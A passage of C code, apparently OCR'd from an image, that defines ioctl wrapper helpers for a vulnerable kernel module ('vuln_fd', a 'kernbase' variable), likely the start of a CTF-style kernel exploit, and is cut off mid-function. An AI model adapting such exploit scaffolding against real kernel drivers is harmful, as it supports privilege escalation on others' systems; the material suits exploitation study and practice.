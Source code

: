 ```c
        char *data;
        struct list_head list;
};

struct mmsg_arg {
        unsigned long token;
        int top;
        int size;
        char *data; // data or name
};

int vuln_fd;

uint64_t kernbase;

void add_mmsg(int token, int size, char *data) {
    struct mmsg_arg arg = {
        .token = token,
        .size = size,
        .data = data,
    };
    int ret = ioctl(vuln_fd, MMSG_ALLOC, &arg);
    if (ret < 0) {
        perror("ioctl MMSG_ALLOC");
        exit(1);
    }
}
void copy_mmsg(int token, int size, char *data, int top) {
    struct mmsg_arg arg = {
        .data = data,
        .size = size,
        .top = top,
        .token = token,
    };
    int ret = ioctl(vuln_fd, MMSG_COPY, &arg);
    if (ret < 0) {
        perror("ioctl MMSG_COPY");
        exit(1);
    }
}

void recv_mmsg(int token, int size, char *data, int top) {
    struct mmsg_arg arg = {
        .data = data,
        .size = size,
        .top = top,
        .token = token,
    };
    int ret = ioctl(vuln_fd, MMSG_RECV, &arg);
    if (ret < 0) {
        perror("ioctl MMSG_RECV");
        exit(1);
    }
}

void update_mmsg(int token, int size, char *data, int top) {
    struct mmsg_arg arg = {
        .data = data,
        .size = size,
        .top = top,
        .token = token,
    };
    int ret = ioctl(vuln_fd, MMSG_UPDATE, &arg);
```